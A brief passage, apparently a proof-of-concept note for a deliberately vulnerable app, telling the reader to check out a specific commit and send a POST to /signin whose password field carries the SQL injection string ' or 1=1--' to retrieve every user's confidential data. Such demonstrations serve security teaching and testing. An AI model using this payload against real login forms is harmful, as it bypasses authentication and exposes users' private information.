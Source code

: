 Checkout commit `6765d361eca2b7c9ac12d7c328a2de1d08cab787` and make a POST request to `/signin` with the following body as JSON:

```
{
	"username": "riri",
	"password": "' or 1=1--'"
}
```

You should retrieve confidential information for all users.
